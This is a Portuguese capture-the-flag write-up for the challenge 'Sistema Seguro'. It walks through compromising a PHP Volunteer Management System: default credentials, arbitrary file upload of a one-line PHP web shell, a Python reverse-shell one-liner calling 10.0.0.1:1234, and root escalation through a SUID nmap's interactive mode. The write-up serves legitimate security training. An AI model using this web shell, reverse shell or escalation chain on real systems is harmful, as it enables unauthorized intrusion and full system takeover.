

# Sistema Seguro

### Descrição
```
Você foi contratado para testar a segurança de um revolucionário sistema de colaboração entre voluntários. Será que existe algum problema nele?
```
**Pontuação**: 200
**Dica**: Não tem nenhuma ferramenta esquisita ai não?

**OBS**: O servidor mudou de IP entre algumas screenshots do write-up, mas é o mesmo ambiente

### Write-up
Ao acessar o IP utilizando um browser, nos deparamos com uma aplicação chamada "PHP Volunteer Management System"


Analisando o código-fonte, é possível extrair a versão dessa aplicação.


Procurando por vulnerabilidades nessa aplicação no [ExploitDB](https://www.exploit-db.com) utilizando o `searchsploit`, é possível ver que existe um `Arbitrary File Upload`




Porém o sistema precisa de credenciais para a vulnerabilidade poder ser explorada. Procurando sobre as credenciais padrão utilizando o google, chegamos em `admin:volunteer`


Com as credenciais, é possível acessar o sistema


Acessando a página vulnerável, podemos enviar um arquivo `shell.php` com o seguinte conteúdo

```php
<?php system($_GET['cmd']) ?>
```


Segundo a descrição da vulnerabilidade, os arquivos ficam disponíveis em `mods/documents/uploads`. Adicionando o caminho na URL, chegamos em um `directory listing` que revela um arquivo PHP


Acessando esse arquivo e passando um comando dentro do parâmetro GET `cmd` para teste, confirmamos que a shell foi enviada com sucesso


Inicialmente tentamos abrir uma shell reverse utilizando `netcat` com o comando `nc <ip> <port> -e /bin/bash`, porém a execução de comandos do `netcat` não está habilitada. Utilizando python, obtemos sucesso em abrir uma shell reversa com o seguinte comando, retirado do [cheat sheet da PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

A primeira coisa que faremos é pegar uma shell interativa  e depois tentar escalar os privilégios. Utilizando o `linuxprivchecker.py` que pode ser obtido [nesse link](https://github.com/sleventyeleven/linuxprivchecker).


Após analisar a saída do script, é possível ver uma ferramenta estranha chamada `nettool` que está com SUID ativado.


Executando essa ferramenta, podemos ver que é uma versão desatualizada do `nmap`, que contém um vetor de escalação de privilégios bem conhecido, utilizando o modo `interactive`


Com a escalação de privilégios para `root`, podemos procurar a flag (que normalmente está na pasta `/root` nesse tipo de desafio). O arquivo escondido `.flag` revela a flag do desafio

